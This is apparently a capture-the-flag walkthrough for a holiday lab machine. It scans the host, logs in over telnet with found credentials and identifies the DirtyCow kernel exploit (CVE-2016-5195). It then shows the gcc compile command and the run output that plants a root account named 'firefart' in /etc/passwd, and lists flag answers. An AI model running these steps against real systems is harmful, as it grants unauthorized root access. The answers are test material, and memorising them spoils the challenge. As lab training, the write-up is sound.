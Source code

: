 # Day 13 - Coal for Christmas  (Special by John Hammond)

1. What old, deprecated protocol and service is running? `telnet

    `nmap -sV -sC 10.10.113.209`:

    ```
    Nmap scan report for 10.10.113.209
    Host is up (0.11s latency).
    Not shown: 997 closed ports
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
    |   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
    |_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
    23/tcp  open  telnet  Linux telnetd
    111/tcp open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          34773/udp   status
    |   100024  1          37160/udp6  status
    |   100024  1          46493/tcp   status
    |_  100024  1          53899/tcp6  status
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 30.03 seconds
    ```

2. Run `telnet 10.10.113.209 23` and find credentials `santa:clauschristmas` so answer is `clauschristmas`.

3. What distribution of Linux and version number is this server running? Run `cat /etc/*release` to get `ubuntu 12.04`.

4. Who got here first? Run `cat cookies_and_milk.txt` to see it was the `grinch`.

5. What is the verbatim syntax you can use to compile, taken from the real C source code comments? The `cookies_and_milk.txt` file is C code and is the [DirtCow](https://dirtycow.ninja/) (CVE-2016-5195) exploit. Searching a random line from the file (specifically `char *generate_password_hash(char *plaintext_pw) {`) finds [FireFart/dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c) which has the compile string of `gcc -pthread dirty.c -o dirty -lcrypt`.

6. What "new" username was created, with the default operations of the real C source code? Copy and paste the exploit code into a file called `dirty.c` using `nano` then run `gcc -pthread dirty.c -o dirty -lcrypt`. Run `./dirty` to get:

    ```
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: 
    Complete line:
    firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

    mmap: 7fca9d1f3000
    ```

    The new username is `firefart`.

7. Switch your user into that new user account, and hop over to the /root directory to own this server! Run `su firefart` with password `test`. Run `cat message_from_the_grinch.txt` which tells us to create a file called coal (`touch coal`). Finally, run `tree | md5sum` to get `8b16f00dd3b51efadb02c1df7f8427cc`.
